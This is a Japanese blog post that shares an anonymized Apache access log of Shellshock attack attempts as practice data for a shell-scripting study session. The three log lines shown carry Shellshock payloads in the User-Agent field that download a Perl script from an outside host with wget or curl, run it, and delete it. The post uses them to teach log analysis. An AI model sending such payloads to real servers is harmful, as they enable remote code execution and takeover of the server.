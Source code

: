 ```yaml
---
Keywords: ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a><br />
<br />
今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。<br />
<br />
<!--more--><br />
<br />
<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a><br />
<br />
これが中身です。どんな問題が出るか予想しながらいじってみていただければと。<br />
<br />
[bash]<br />
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/php HTTP/1.1&quot; 302 219 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\&quot;);'&quot;<br />
[/bash]<br />
<br />
<br />
ヤバイ・・・<br />
<br />
<br />
寝る。
